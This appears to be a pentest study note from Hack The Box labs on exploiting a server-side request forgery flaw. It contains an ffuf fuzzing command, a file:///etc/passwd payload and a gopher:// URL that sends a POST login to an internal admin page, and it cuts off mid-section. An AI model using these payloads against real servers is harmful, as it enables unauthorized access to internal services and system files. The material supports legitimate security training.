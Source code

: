 >[!code]- Accessing files
>Fuzz for directories available on the `dateserver.htb` server:
>```powershell
>ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
>```
>
>Fuzz for files outside the web server (or the web server's app source files):
>```powershell
>dateserver=file:///etc/passwd&date=2024-01-01
>```
>>[!exploit]- Example (Hack The Box)
>>We access the `admin.php` web page on the `dateserver.htb` server, via the SSRF vulnerability. Without the SSRF vulnerability we wouldn't be able to reach the `dateserver.htb` server.
>>
>>![[Images/Pasted image 20250523070325.png]]

>[!code]- Accessing other internal services via the gopher protocol
>>[!info]- Overcoming GET-based SSRF vulnerability limitations
>>Sometimes a service is found which requires us to send POST data to it in order to access it. For example, if we found an `admin.php` login portal on an internal HTTP server, we wouldn't typically be able to fuzz the credentials via a GET request. The Gopher protocol, however, lets us send POST-like data in a GET request. The receiving service has to have a Gopher compiler for this approach to work.
>
>If we want to send this POST request via the GET-based SSRF vulnerability (`dateserver=http://dateserver.htb/data-to-send-here&date=2024-01-01`):
>```powershell
>POST /admin.php HTTP/1.1
>Host: dateserver.htb
>Content-Length: 13
>Content-Type: application/x-www-form-urlencoded
>
>adminpw=admin
>
>```
>We can convert it into a gopher request:
>- URL encode all special characters (including spaces (`%20`) and newlines (`%0D%0A`))
>- Prefix the data with the gopher URL scheme, the target host and port, and an underscore:
>  
>>[!tip]- Converting a POST request into the Gopher format can be done automatically using the [Gopherus](https://github.com/tarunkant/Gopherus) tool. It supports the creation of URLs for the following services:
>>MySQL
>>PostgreSQL
>>FastCGI
>>Redis
>>SMTP
>>Zabbix
>>pymemcache
>>rbmemcache
>>phpmemcache
>>dmpmemcache
>  
>```powershell
>gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
>```
>
>We'll probably need to URL-encode again the whole URL above before setting it as the value for the `dateserver` parameter, to ensure its delivered as intended to the Gopher protocol handler:
>
>```powershell